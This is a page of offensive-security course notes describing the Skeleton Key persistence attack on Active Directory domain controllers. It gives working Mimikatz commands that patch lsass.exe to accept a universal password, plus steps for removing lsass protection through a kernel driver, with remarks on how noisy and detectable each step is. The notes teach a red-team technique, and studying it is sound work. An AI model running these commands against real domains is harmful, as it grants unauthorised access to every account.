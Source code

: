 # 8.4 - Skeleton Key

### Skeleton Key

**Skeleton Key** is a Domain Controller (DC) post-exploitation persistence technique where the `lsass.exe` process is **patched in memory** to accept a **master password** for all users.

#### Key Concepts

* Discovered by **Dell SecureWorks** in malware named _Skeleton Key_.
* Once injected, any **valid username** can be used to authenticate with a **universal password** (usually `mimikatz`).
* Does **not survive reboots**, as it’s a memory patch.
* Can cause **instability** and interfere with services like **Active Directory Certificate Services** (AD CS).
* Requires **Domain Admin** privileges.

***

#### Usage with Mimikatz (PowerShell Remoting)

To inject the Skeleton Key into `lsass.exe` on a Domain Controller:

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

* After injection, login to any machine in the domain using any valid username and the password `mimikatz`.

Example:

```powershell
Enter-PSSession -ComputerName dcorp-dc -Credential dcorp\Administrator
```

**OPSEC Warning**: Easily detectable due to behavior and logging. Avoid on mature/monitored environments.

***

#### If `lsass.exe` is a Protected Process (PPL)

In some environments, `lsass` runs with Protected Process Light (PPL). You can still inject Skeleton Key using the Mimikatz driver:

```mimikatz
mimikatzCopiaModificamimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

This involves **kernel-mode driver loading** (`mimidriv.sys`) and is very **noisy**—triggers EDR alerts and logging.
